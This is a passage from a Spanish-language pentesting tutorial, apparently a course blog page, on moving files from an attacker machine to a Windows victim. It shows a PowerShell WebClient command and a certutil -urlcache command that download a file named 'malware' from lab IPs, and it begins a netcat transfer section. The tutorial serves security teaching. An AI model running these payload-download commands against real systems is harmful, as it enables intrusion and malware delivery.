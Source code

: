 		<br />

	- **Windows**: Descargamos el fichero con powershell.

		<br />

		```bash			
		powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.0.2.4:8080/malware','C:\Users\user\Desktop\malware')"
		```
		<br />

		<div style="text-align:center">
		<img src="{{ 'assets/img/M7/Pasted image 20220130103819.png' | relative_url }}" text-align="center"/>
		</div>

		<br />
		y ahí tendríamos nuestro fichero.
	
	<br />
	
- **Certutil.exe**:

	Certutil.exe se trata de otra herramienta que nos permite descargar ficheros de un servidor web. Así, en primer lugar, montamos un servidor http en la máquina atacante y luego descargamos desde la máquina víctima el fichero deseado con la herramienta antes descrita:
	
	- **Linux**: Montamos el servidor con python:

		<br />

		<div style="text-align:center">
		<img src="{{ 'assets/img/M7/Pasted image 20220130104909.png' | relative_url }}" text-align="center"/>
		</div>
		
		<br />

	- **Windows**: Descargamos el fichero a través de certutil.exe:

		```bash
		certutil.exe -urlcache -split -f http://10.10.10.1:8080/malware malware
		```

		<br />

		<div style="text-align:center">
		<img src="{{ 'assets/img/M7/Pasted image 20220130104845.png' | relative_url }}" text-align="center"/>
		</div>
	
		<br />

- **Netcat**: 

	Podemos utilizar netcat para descargar un fichero desde windows, exactamente igual a como hemos hecho con Linux.
	
	- **Windows**: Desde la máquina víctima escuchamos desde cierto puerto con netcat y le decimos que transfiera lo que escuche al fichero malware:
